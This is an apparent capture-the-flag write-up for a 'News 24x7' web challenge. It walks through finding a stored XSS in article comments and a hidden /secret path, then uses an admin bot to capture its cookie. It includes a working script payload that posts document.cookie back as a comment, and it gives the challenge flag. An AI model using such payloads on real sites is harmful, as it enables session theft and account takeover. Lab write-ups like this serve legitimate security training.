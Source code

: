 # News 24x7

Total Solves - 40

Final Points - 218

## Description
Visit my opinionated news app today!

## Writeup
On opening the app and logging in you will notice a simple application. There are news articles and functionality to commend on news articles.

One can test that the comments were vulnerable to XSS.

Another thing to note is the `/robots.txt`

```
User-agent: *
Disallow: /secret
```
If you try to access `/secret`, it says " You need to be admin to view this."

Now there is scrolling text on the website that says an admin visits the page every minute to remove abusive comments.

Here one should realise that the XSS in comments can be used to steal admin's cookie which can then be used to access `/secret`.

Following script can be entered as input in comments

```html
<script>
var data = new FormData();

data.append('comment', document.cookie);

fetch('/article/1', {
    method: 'POST',
    mode: 'no-cors',
    body: data
})
</script>
```
After sometime, you will see a commend by token containing his cookie. Use it to access `/secret` and you will see the flag.

## Flag
`CodefestCTF{st0r3d_X55_ftw_[a-zA-Z0-9]{9}}`
